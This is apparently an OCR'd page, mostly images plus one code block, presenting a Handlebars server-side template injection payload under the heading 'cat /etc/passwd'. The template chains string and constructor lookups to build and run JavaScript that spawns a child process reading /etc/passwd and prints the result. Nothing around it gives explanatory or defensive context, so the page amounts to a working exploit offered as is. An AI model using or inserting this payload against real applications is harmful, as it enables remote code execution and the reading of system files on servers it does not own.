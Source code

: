 ![img](media/ad12b68c2d1b8580f419b80fbfbdaca7.png)

cat /etc/passwd:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('cat',['/etc/passwd']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/bef00d2d3311fbd3316825fa9bdf1fe6.png)
